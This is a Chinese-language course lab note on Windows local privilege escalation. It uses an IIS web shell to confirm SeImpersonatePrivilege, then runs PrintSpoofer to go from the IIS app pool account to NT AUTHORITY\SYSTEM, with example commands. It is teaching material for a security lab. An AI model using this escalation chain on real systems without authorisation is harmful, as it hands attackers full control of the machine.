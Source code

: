 # NTUSTISC - AD Note - Lab(Hijack Token)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=M0LV3dBCMCOy58LN&t=3600)

## Background
* 提權方法
    * 利用弱點
    * Hijack Token
        * Tools: [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
        * Support: Windows 8.1/Server 2012 R2/10/Server 2019
        * How to use: `$ PrintSpoofer.exe -c "command"`
    * Guess Password
    * 管理服務
    * 錯誤配置
## Lab Time - 本地提權
### ==Hijack Token(Network Service)==
這邊講師示範的是，如何利用IIS的特殊權限，達成提權。
先解釋一下，如果要使用PrintSpoofer之類的工具有個特殊的條件，就是需要有特殊權限，也就是
:::info
```bash!
$ whoami /priv
```
需要有下列其一權限:
SeImpersonatePrivilege => CreateProcessWithToken()
SeAddignPrimaryToekn => CreateProcessAsUser()
:::
1. whoami /priv
我們先看一下正常使用者的特殊權限有哪些
    ```bash!
    $ whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    特殊權限名稱                  描述               狀況
    ============================= ================== ======
    SeShutdownPrivilege           關閉系統           已停用
    SeChangeNotifyPrivilege       略過周遊檢查       已啟用
    SeUndockPrivilege             從擴充座移除電腦   已停用
    SeIncreaseWorkingSetPrivilege 增加處理程序工作組 已停用
    SeTimeZonePrivilege           變更時區           已停用
    ```
    可以看到上述的權限都沒有在這裏面，也就是說正常的使用者是不會有這兩個權限的，那誰會有這兩個權限呢?需要==impersonation(也就是講師說的切換身分)的人==，詳細的腳本可以看這邊[^iis-windows-impersonation]但今天不會用到，總之IIS就是一個需要做身分切換的角色，所以講師已經在Win10的電腦中設定好IIS，也起用了web shell的功能，我們就可以試看看，在browser中`http://127.0.0.1/cmd.aspx`，他可以直接用IIS的權限執行程式
    ![](https://hackmd.io/_uploads/r1N1LMM03.png)

    ![](https://hackmd.io/_uploads/HySuBGMC2.png)
    從結果來看，他的確具有==SeImpersonatePrivilege==的權限而且已經啟用，那我們就可以直接用PrintSpoofer.exe執行其他指令
2. Use PrintSpoofer.exe
![](https://hackmd.io/_uploads/rkqPUMGA2.png)
從結果來看，我們的確已經提權了，再來可以用講師的指令測試一下權限
`c:\tools\PrintSpoofer64.exe -c "c:\windows\system32\cmd.exe /c whoami > c:\inetpub\wwwroot\tmp.txt"`
這一串指令是利用PrintSpoofer執行cmd.exe再執行whoami的command並寫道tmp.txt中
![](https://hackmd.io/_uploads/rk0pwGzRh.png)
目前權限已經從`iis apppool\defaultapppool`轉換成`nt authority\system`也就是前面說的==本地端真正的最高權限使用者==
## Reference
[^iis-windows-impersonation]:[ [2020鐵人賽] Day29 - 切換身分Impersonation ](https://ithelp.ithome.com.tw/articles/10252658)